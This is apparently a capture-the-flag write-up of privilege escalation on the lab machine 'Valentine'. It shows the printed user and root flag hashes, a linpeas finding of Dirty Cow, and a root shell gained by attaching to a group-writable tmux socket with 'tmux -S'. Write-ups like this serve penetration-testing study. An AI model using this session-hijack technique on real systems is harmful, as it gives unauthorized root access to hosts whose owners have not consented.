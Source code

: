 # 20 - PrivEsc


# Let's grab the flag
```
hype@Valentine:~/Desktop$ cat user.txt 
e6710a5464769fd5fcd216e076961750
```



# Linpeas.sh 


![](vx_images/3502331816313.png)

That is [Dirty Cow](https://dirtycow.ninja/) privilege escalation vulnerability.


# Tmux
![](vx_images/2237249605405.png)


# User hype has rw access on the socket

```bash
hype@Valentine:/dev/shm$ ls -l /.devs/dev_sess
srw-rw---- 1 root hype 0 May 19 10:28 /.devs/dev_sess
```

# Tmux sessions hijacking [link](https://book.hacktricks.xyz/linux-unix/privilege-escalation#open-shell-sessions)

```bash
hype@Valentine:~$ tmux -S /.devs/dev_sess
root@Valentine:/home/hype# id
uid=0(root) gid=0(root) groups=0(root)
```

# Flag

```bash
root@Valentine:/home/hype# cat /root/root.txt
f1bb6d759df1f272914ebbc9ed7765b2
```